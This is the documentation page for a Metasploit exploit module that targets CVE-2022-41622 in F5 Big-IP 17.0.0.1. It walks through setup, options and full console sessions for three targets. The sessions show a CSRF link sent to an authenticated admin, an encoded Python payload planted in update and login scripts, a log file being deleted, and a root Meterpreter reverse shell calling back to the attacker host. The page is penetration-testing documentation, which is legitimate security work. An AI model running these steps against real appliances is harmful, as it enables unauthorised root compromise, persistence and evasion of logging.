 ## Vulnerable Application

The vulnerable application is F5 Big-IP version 17.0.0.1 and below. It can be
downloaded as a VMWare image for free (you have to create an account) from
https://downloads.f5.com. You can register for a free 30-day trial if you like,
but it's not required to test this.

Boot the VM and set an admin password by logging in with the default credentials
(admin / admin). You'll need that password.

## Verification Steps

This is a CSRF vuln, so it requires a browser in addition to msf:

1. Install the application
2. Start `msfconsole`
3. Do: `use exploit/linux/http/f5_icontrol_soap_csrf_rce_cve_2022_41622`
4. Do `set TARGET_HOST <target>` / `set LHOST <yourtest>`
5. Do: `run`
6. You should get a url such as: `http://10.0.0.179:8080/ddgjZO`
7. Open a browser and visit that URL
8. If you don't already have an HTTP Basic session, it'll ask for your credentials (the `admin` account from earlier works great)

## Options

### `TARGET_HOST` / `TARGET_URI` / `TARGET_SSL`

These are the target that the user will be redirected to

### `FILENAME`

If the `TARGET` is `2` (`Custom`), the file that will be overwritten with the payload

## Scenarios

### F5 Big-IP 17.0.0.1 - Target 0 (Restart)

Start the listener:

```
msf > use exploit/linux/http/f5_icontrol_soap_csrf_rce_cve_2022_41622
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp

msf exploit(linux/http/f5_icontrol_soap_csrf_rce_cve_2022_41622) > set TARGET_HOST 10.0.0.162
TARGET_HOST => 10.0.0.162

msf exploit(linux/http/f5_icontrol_soap_csrf_rce_cve_2022_41622) > set LHOST 10.0.0.179
LHOST => 10.0.0.179

msf exploit(linux/http/f5_icontrol_soap_csrf_rce_cve_2022_41622) > exploit
[*] Started reverse TCP handler on 10.0.0.179:4444 
[+] Starting HTTP server; an administrator with an active HTTP Basic session will need to load the URL below
[*] Using URL: http://10.0.0.179:8080/LXsNzhG6zMdQ
[*] Server started.
```

Then, a legit user that has HTTP Basic authentication (or who can be tricked
into performing HTTP Basic authentication) needs to visit that URL. When any
user connects, they'll be redirected to the SOAP endpoint and you'll see:

```
msf exploit(linux/http/f5_icontrol_soap_csrf_rce_cve_2022_41622) > exploit

[*] Started reverse TCP handler on 10.0.0.179:4444 
[+] Starting HTTP server; an administrator with an active HTTP Basic session will need to load the URL below
[*] Using URL: http://10.0.0.179:8080/LXsNzhG6zMdQ
[*] Server started.

[... wait for a user to visit the URL ...]

[*] Redirecting the admin to overwrite /shared/f5_update_action; if successful, your session will come approximately 2 minutes after the target is rebooted
```

We have no way to tell whether this was successful; however, if we already have
access to the target (ie, if you're testing this), we can check if the file was
successfully planted:

```
[root@bigip:Active:Standalone] config # cat /shared/f5_update_action 
UpdateAction
https://localhost/success`echo exec\(__import__\(\'base64\'\).b64decode[...]
https://localhost/error
0
0
0
0
```

The code planted there will activate at reboot. So, ...wait till the target
reboots. Perhaps when they update! Again, if you have shell access, you can
check the log file when it boots:

```
[root@bigip:INOPERATIVE:] config # tail -f /var/log/f5_update_checker.out
[Mon Nov 14 15:26:02 2022] f5em_callback [INFO]: EM callback file found -- parsing
[Mon Nov 14 15:26:02 2022] f5em_callback [INFO]: EM callback file action: "UpdateAction"
[Mon Nov 14 15:26:02 2022] f5em_callback [INFO]: EM callback file success URL: "https://localhost/success`echo exec\(__import__\(\'base64\'\).b64decode[...]
[Mon Nov 14 15:26:02 2022] f5em_callback [INFO]: EM callback file failure URL: "https://localhost/error"
[Mon Nov 14 15:26:02 2022] f5em_callback [INFO]: EM callback file rebootOnSuccess flag: "8"
[Mon Nov 14 15:26:02 2022] f5em_callback [INFO]: EM callback file rebootOnSuccess slot: "0"
[Mon Nov 14 15:26:02 2022] f5em_callback [INFO]: EM callback file rebootOnFailure flag: "0"
[Mon Nov 14 15:26:02 2022] f5em_callback [INFO]: EM callback file rebootOnFailure slot: "0"
[Mon Nov 14 15:26:02 2022] f5em_callback [INFO]: Executing EM action: UpdateAction
[Mon Nov 14 15:26:02 2022] f5em_callback [INFO]: Sleeping for 2 minutes before first attempt.
[...wait 2 minutes...]
[Mon Nov 14 15:28:02 2022] f5em_callback [INFO]: Finished sleeping.
[Mon Nov 14 15:28:02 2022] f5em_callback [INFO]: Attempting to connect to EM server: "https://localhost/success`echo exec\(__import__\(\'base64\'\).b64decode[...]
```

And, on Metasploit:

```
[*] Redirecting the admin to overwrite /shared/f5_update_action; if successful, your session will come approximately 2 minutes after the target is rebooted
[...wait 2 minutes...]
[*] Sending stage (40164 bytes) to 10.0.0.162
[+] Deleted /var/log/f5_update_checker.out
[*] Meterpreter session 1 opened (10.0.0.179:4444 -> 10.0.0.162:51388) at 2022-11-14 15:28:04 -0800

msf exploit(linux/http/f5_icontrol_soap_csrf_rce_cve_2022_41622) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: root
```

### F5 Big-IP 17.0.0.1 - Target 1 (Login)

This works similarly.. use the module, set the `TARGET_HOST`, and set the
`TARGET` to `1`:

```
msf > use exploit/linux/http/f5_icontrol_soap_csrf_rce_cve_2022_41622
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp

msf exploit(linux/http/f5_icontrol_soap_csrf_rce_cve_2022_41622) > set TARGET_HOST 10.0.0.162
TARGET_HOST => 10.0.0.162

msf exploit(linux/http/f5_icontrol_soap_csrf_rce_cve_2022_41622) > set LHOST 10.0.0.179
LHOST => 10.0.0.179

msf exploit(linux/http/f5_icontrol_soap_csrf_rce_cve_2022_41622) > set TARGET 1
TARGET => 1

msf exploit(linux/http/f5_icontrol_soap_csrf_rce_cve_2022_41622) > exploit
[*] Started reverse TCP handler on 10.0.0.179:4444 
[+] Starting HTTP server; an administrator with an active HTTP Basic session will need to load the URL below
[*] Using URL: http://10.0.0.179:8080/ePg5ECHuVD
[*] Server started.

[...wait for an authenticated user to click the link...]

[*] Redirecting the admin to overwrite /var/run/config/timeout.sh; if successful, your session will come the next time a user logs in interactively
```

Once again, if you already have access, you can verify it worked:

```
[root@bigip:Active:Standalone] config # cat /etc/profile.d/timeout.sh 
echo exec\(__import__\(\'base64\'\).b64decode[...]
```

Then, when a user logs in (ie, `ssh root@<target>` or on the console), you get
a session:

```
[*] Redirecting the admin to overwrite /var/run/config/timeout.sh; if successful, your session will come the next time a user logs in interactively

[...wait for a user to log in..]

[*] Sending stage (40168 bytes) to 10.0.0.162
[+] Deleted /var/run/config/timeout.sh
[*] Meterpreter session 1 opened (10.0.0.179:4444 -> 10.0.0.162:43902) at 2022-11-14 15:32:26 -0800

meterpreter > getuid
Server username: root
```

### F5 Big-IP 17.0.0.1 - Target 2 (Custom)

Once again, set up the server:

```
msf > use exploit/linux/http/f5_icontrol_soap_csrf_rce_cve_2022_41622
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp
msf exploit(linux/http/f5_icontrol_soap_csrf_rce_cve_2022_41622) > set TARGET_HOST 10.0.0.162
TARGET_HOST => 10.0.0.162

msf exploit(linux/http/f5_icontrol_soap_csrf_rce_cve_2022_41622) > set LHOST 10.0.0.179
LHOST => 10.0.0.179

msf exploit(linux/http/f5_icontrol_soap_csrf_rce_cve_2022_41622) > set TARGET 2
TARGET => 2

msf exploit(linux/http/f5_icontrol_soap_csrf_rce_cve_2022_41622) > set FILENAME /tmp/testmsfmodule
FILENAME => /tmp/testmsfmodule

msf exploit(linux/http/f5_icontrol_soap_csrf_rce_cve_2022_41622) > exploit
[*] Started reverse TCP handler on 10.0.0.179:4444 
[+] Starting HTTP server; an administrator with an active HTTP Basic session will need to load the URL below
[*] Using URL: http://10.0.0.179:8080/PLvOVjkiVvXX
[*] Server started.

[...wait for an admin to visit that link...]

[*] Redirecting the admin to overwrite /tmp/testmsfmodule with the payload
```

You can verify the file exists:

```
# cat /tmp/testmsfmodule 
echo exec\(__import__\(\'base64\'\).b64decode[...]
```

Note that while this is written by root, you're in a pretty strict SELinux
context so most obvious attacks (like writing to /etc/profile.d, /root/.ssh,
etc., won't work).
